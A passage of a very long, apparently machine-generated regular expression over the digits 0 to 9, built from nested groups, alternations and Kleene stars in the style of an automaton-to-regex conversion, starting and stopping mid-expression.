7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|5|(3|8)0*6)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(0|10*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|10*6|7)|((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|5|(3|8)0*6)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(60*1|7)((2|9)0*1|(3|8))*(4|(2|9)0*6)|0|60*6)|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(4|(2|9)0*6)|40*6|(2|9))|(6|70*1)((2|9)0*1|(3|8))*(4|(2|9)0*6)|1|70*6)*(((((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(6|70*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|70*5|(2|9))(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(0|10*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|10*7|6)|((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)